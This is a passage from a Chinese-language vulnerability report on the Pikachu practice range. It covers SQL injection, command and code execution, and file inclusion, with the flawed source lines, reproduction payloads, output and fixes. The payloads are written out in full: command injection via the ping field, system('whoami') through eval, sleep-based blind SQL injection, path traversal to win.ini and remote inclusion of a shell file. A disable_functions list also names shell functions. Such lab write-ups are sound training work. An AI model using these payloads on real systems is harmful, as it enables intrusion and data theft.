iu-reg** — insert 型注入：注册处未转义，可插入自定义账号并登录



**sqli05b-iu-login-escaped** — 对照：登录页已 escape()，同一 payload 失效（说明修复就该这么做）



**sqli07-blind-b** — 布尔盲注：condition 真假决定回显



**sqli08-blind-t** — 时间盲注：sleep(3) 直接体现响应延迟



**sqli09-header** — HTTP 头注入：User-Agent 进 insert 语句(时间盲注)



**sqli10-widebyte** — 宽字节注入：%df 吃掉转义反斜杠(GBK)



**sqli11-del** — DELETE 注入：一条 id 参数删光整张表



### 修复建议

- 全部改预处理语句：`$stmt=$mysqli->prepare('select ... where id=?'); $stmt->bind_param('i',$id);`（PDO 用 `prepare/execute` + `ATTR_EMULATE_PREPARES=false`）。
- 数字型参数强制 `(int)`/`intval()`，不要在字符上下文里「相信」它是数字；表名、列名、排序字段只能用白名单映射，绝不拼接用户输入。
- 数据库账号最小权限：业务账号只给 SELECT/INSERT/UPDATE，不给 DROP/ALTER，DELETE 也必须带 WHERE 约束的存储过程封装。
- `display_errors=Off`、错误页统一化，避免报错回显泄露库名/版本；`character_set_client` 全程使用 utf8mb4 且与连接字符集一致，别在中途切 gbk（宽字节的根因就在字符集不一致）。
- （实战细节）MySQL 开启 `STRICT_TRANS_TABLES` 时，insert 值位置的布尔注入不能写 `x' and '1'='1`，会报 `1292 Truncated incorrect DOUBLE value`；要用数字串 `0' or sleep(3) or '0` 这种形式。用 `#` 注释行尾时会把语句自身的右括号一起注释掉，payload 需要自己补 `)`。

## 5. 远程代码/命令执行 RCE {#m5}

`风险：严重`　`CWE-78 命令注入 / CWE-95 代码注入`

两个入口：一个是 `shell_exec('ping '.$ip)`，把用户输入的 IP 直接拼进系统命令；另一个更直接，`eval($_POST['txt'])`，把 POST 内容当 PHP 代码执行。前者是命令注入（靠 `|`、`&`、`;` 拼接），后者是代码执行（直接写 PHP 语句）。

### 源码缺陷

- vul/rce/rce_ping.php:21-29 —— `$ip=$_POST['ipaddress']; ... shell_exec('ping '.$ip);`，注释里自己写着「直接将变量拼接进来，没做处理」。
- vul/rce/rce_eval.php:18-19 —— `if(@!eval($_POST['txt'])){...}`。



### 复现过程

| 用例 | 载荷 / 操作 | 结果 |
|---|---|---|
| `rce01-ping` | `ipaddress=127.0.0.1 \| whoami & hostname` | URL重定向 SSRF 管理工具 rce exec "ping" 点一下提示~ Here, please enter the target IP address! laptop-a0qf3dlp\wo2025 LAPTOP-A0QF3DLP Pikachu PIKA~ PIKA~© runner.h |
| `rce02-eval` | `txt=echo "PIKA-EVAL-OK:"; system("whoami");` | 反序列化 XXE URL重定向 SSRF 管理工具 PIKA-EVAL-OK:laptop-a0qf3dlp\wo2025 rce exec "eval" 点一下提示~ Here, 请提交一个你喜欢的字符串: 你喜欢的字符还挺奇怪的! Pikachu PIKA~ PIKA~© runner.han |

**rce01-ping** — 命令执行(shell_exec)：| 与 & 拼接系统命令



**rce02-eval** — 代码执行(eval)：POST txt 直接进 eval



### 修复建议

- 禁止把用户输入拼进 shell 命令：优先用语言内建能力（如 fsockopen 探活、curl 探测）替代调用系统命令。
- 确实要调命令时：参数用 `escapeshellarg()` 包住 + `escapeshellcmd()`，并对输入做严格正则（IPv4 用 `filter_var($ip, FILTER_VALIDATE_IP)`）。
- `disable_functions = exec,passthru,shell_exec,system,proc_open,popen,eval,assert`；`eval` 这类语言结构无法用 disable_functions 禁用，正确做法是代码里根本不出现它。
- Web 进程降权运行（非管理员/非 root）、容器隔离、open_basedir 限制，把 RCE 的影响面压到最小。

## 6. 文件包含 File Inclusion {#m6}

`风险：高危`　`CWE-98 文件包含`

本地包含把 `include "include/$filename"` 的变量完全暴露，`../../` 就能跳出目录读系统文件，配合上传的图片马还能 getshell；远程包含 `include "$filename"` 连 scheme 都不校验，只要 `allow_url_include=On` 就能把攻击者服务器上的 PHP 直接执行。本靶场已把该 ini 置为 `On` 复现（`REMOTE-INCLUDE-OK` 回显），而它的默认值 `Off` 恰好就是这条漏洞最省事的修法。

### 源码缺陷

- vul/fileinclude/fi_local.php:21-22 —— `$filename=$_GET['filename']; include "include/$filename";`
- vul/fileinclude/fi_remote.php:35-36 —— `$filename=$_GET['filename']; include "$filename";`（无任何 scheme/路径校验）



### 复现过程

| 用例 | 载荷 / 操作 | 结果 |
|---|---|---|
| `fi01-local` | `filename=../../../../Windows/win.ini` | Pikachu 漏洞练习平台 pika~pika~ 欢迎 骚年 系统介绍 暴力破解 Cross-Site Scripting CSRF SQL-Inject RCE File Inclusion 概述 File Inclusion(local) File Inclusion(remote) Unsa |
| `fi02-remote` | `filename=http://127.0.0.1:8081/shell.txt` | 命中 REMOTE-INCLUDE-OK（allow_url_include=On） |

**fi01-local** — 本地文件包含：include 变量未过滤 -> 读任意文件



**fi02-remote** — 远程文件包含：include($filename) 直取 http:// 封装器（依赖 allow_url_include）

